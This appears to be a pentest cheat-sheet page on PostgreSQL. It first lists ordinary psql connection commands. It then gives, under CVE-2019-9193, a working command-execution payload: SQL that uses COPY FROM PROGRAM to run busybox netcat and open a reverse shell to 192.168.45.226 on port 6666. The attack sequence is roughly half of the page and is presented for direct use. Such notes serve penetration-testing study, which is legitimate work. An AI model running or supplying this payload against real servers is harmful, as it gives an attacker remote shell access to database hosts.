 # Service Interaction

## psql

```bash
psql -U <myuser> # Open psql console with user
psql -h <host> -U <username> -d <database> # Remote connection
psql -h <host> -p <port> -U <username> -W <password> <database> # Remote connection
```

# [CVE-2019–9193](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution)

```bash
DROP TABLE IF EXISTS cmd_exec;          
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'busybox nc 192.168.45.226 6666 -e /bin/sh';   
SELECT * FROM cmd_exec;               
DROP TABLE IF EXISTS cmd_exec;
```


